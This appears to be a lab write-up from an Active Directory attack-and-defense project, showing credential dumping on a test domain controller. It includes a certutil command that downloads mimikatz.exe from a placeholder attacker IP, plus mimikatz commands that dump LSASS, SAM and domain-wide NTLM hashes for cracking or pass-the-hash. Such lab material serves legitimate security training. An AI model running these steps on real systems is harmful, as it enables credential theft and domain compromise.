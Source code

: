 # Dumping Credentials using MIMIKATZ

As we discussed before `mimikatz` is a post compromise tool that require an valid user shell. In the previous URL File attack, we have already compromised the Domain Administrator account. <br>
By using his credentials we can get a shell on the domain controller (JUSTICE-DC) and then load `mimikatz` to dump the hashes of other interesting domain accounts.

### TRANFERRING MIMIKATZ EXECUTABLE TO TARGET:

To execute `mimikatz` on the target we need to first transfer the executable file onto the target.
Its always a best practise to use the `/temp` folder under `C:\` drive to store all the scripts and executables that we use on the target.

To transfer the executable, I hosted the directory using python HTTP server and then used `certutil` command on the target shell to download the `mimikatz.exe` file

ON ATTACK SIDE: Host the directory with `mimikatz.exe`. In Kali it can be found under `/usr/share/windows-resources`.
```
python3 -m http.server 80
```

ON TARGET SHELL: Navigate to `C:\temp` directory and download the file.
```
certutil -urlcache -f http://<ATTACKER IP>/mimikatz.exe mimikatz.exe
```

### CREDENTIAL DUMPING
#### 1. GAIN PRIVILEGE TO DUMP CREDENTIALS:

```bash 
privilege::debug
```
This command will allows us to debug a process that we don't have access to. In simple words, it bypasses the memory protection for the `lsass.exe` process to dump credentials in it.

![privilegedebug](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/0012224e-e8ec-4a1a-97b3-db0b6a40664f)

#### 2. DUMPING HASHED PASSWORDS FROM LSASS:

```
sekurlsa::logonpasswords 
```
This command will list the stored login password hashes of all user accessing that have previously logged into `JUSTICE-DC`. If you are on a Domain controller shell you can use this to gain the stored password hash of the Administrator.

Similarly if we were attempting this on any other machine on the domain (For Ex: `BATMAN`) where the Administrator have logged in. this command will dump the admin's NTLM hash. This means that the shell doesn't have to be always the Domain Controller.
 
![adminhash](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/2ac5fd1b-de4f-4f25-b18d-d890eca61bfe)

#### 3. EXTRACTING LOCAL USER HASHED FROM SAM DATABASE:

```
lsadump::sam
```
This command will dump the password hashes of all local users present in that particular machine like guest, local admin, local user account etc..<br>
This command also dumps other important about the target like `Syskey`, SAM Key, Local SID etc..

![SAMdump](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/e7e6ee51-360a-4d7d-8227-89967ff8d4a8)

#### DUMPING CREDETIALS OF OTHER DOMAIN USERS:

```
lsadump::lsa /patch
```
Currently we have an Administrator shell on the domain controller (JUSTICE-DC). if we run this command it will dump the NTLM hash of all users available on the domain.

Since these are NTLM, we can crack the hash or pass it to laterally move to other systems and compromise other users on the domain.

![USerdump1](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/739175f5-09fb-4874-b515-551b4984c704)
![Userdump2](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/782a8f8f-2e05-4aac-baef-385f3bc95902)


From the output, we got to know few accounts that we had no idea that they existed on the domain.
- One is the Clark Kent's account: `superman` which is the cop of the Administrator account and has all the privileges on the domain.
- Another one is the `SQLService` account which is also a Domain Admin account.
- Then we have the `krbtgt` account which is used by the Kerberos service for creation and distribution of tickets. this is a very important account when it comes to Golden ticket attack.

